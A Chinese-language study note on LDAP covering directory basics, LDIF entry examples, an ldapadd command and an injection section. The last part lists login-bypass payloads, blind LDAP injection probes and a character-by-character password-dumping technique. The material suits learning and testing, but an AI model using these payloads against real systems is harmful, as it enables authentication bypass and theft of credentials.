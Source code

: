 # LDAP
## 基础知识
**概念**
lightly directory access protocol 轻量级目录访问协议，基于TCP/IP协议，通过在网络上的目录服务器上的存储和检索信息实现用户身份验证和访问控制目录查询等功能
**默认端口**
默认端口是389，使用SSL/TSL加密通信时，使用636端口
**关键字**
dc domain component 域名组成部分
例如：域名`example.com     dc=example,dc=comu`
uid user id 用户id
ou orgnization unit 组织单位
cn common name 公共名
sn surname 姓
dn distinguished name 一条记录的位置 “uid=a,ou=oa,dc=aa,dc=com”
rdn rlative dn 相对dn 类似相对路径
## 增删改查
### 文件格式
数据都存储在.ldif文件中
基本结构：
注释行：以井号（#）开头的行，用于添加注释信息，不会被LDAP服务器处理。

DN行：以dn:开头，后跟目录项的Distinguished Name（唯一标识符），用于指定目录项的位置。

属性行：以属性名:属性值的形式表示，用于描述目录项的属性和属性值。
```
# 添加一个新的用户
dn: cn=John Doe,ou=users,dc=example,dc=com
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
cn: John Doe
sn: Doe
givenName: John
mail: john.doe@example.com
userPassword: {SHA}nFCebWjxfaLbHHG1Qk5UU4trbvQ=

# 修改用户密码
dn: cn=John Doe,ou=users,dc=example,dc=com
changetype: modify
replace: userPassword
userPassword: {SHA}5en6G6MezRroT3XKqkdPOmY/BfQ=

# 删除一个用户
dn: cn=John Doe,ou=users,dc=example,dc=com
changetype: delete

```

### 命令格式
```<command> [ldap server ip] [username] [passwd] [ldap file addr]```
 ldapadd 添加文件
```
ldapadd -x -H ldap://127.0.0.1:389 -b "cn=admin,dc=example,dc=com" -w admin -f demo.ldif
``` 
## 注入漏洞
### Login Bypass
LDAP supports several formats to store the password: clear, md5, smd5, sh1, sha, crypt. So, it could be that independently of what you insert inside the password, it is hashed.
```
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi

user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))

user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))

user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed

user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error

username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.

username=*
password=*)(&
--> (&(user=*)(password=*)(&))

username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```
### Blind LDAP Injection
You may force False or True responses to check if any data is returned and confirm a possible Blind LDAP Injection:
```
#This will result on True, so some information will be shown
Payload: *)(objectClass=*))(&objectClass=void
Final query: (&(objectClass= *)(objectClass=*))(&objectClass=void )(type=Pepi*))

#This will result on True, so no information will be returned or shown
Payload: void)(objectClass=void))(&objectClass=void
Final query: (&(objectClass= void)(objectClass=void))(&objectClass=void )(type=Pepi*))
```
#### Dump data
You can iterate over the ascii letters, digits and symbols:
```
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```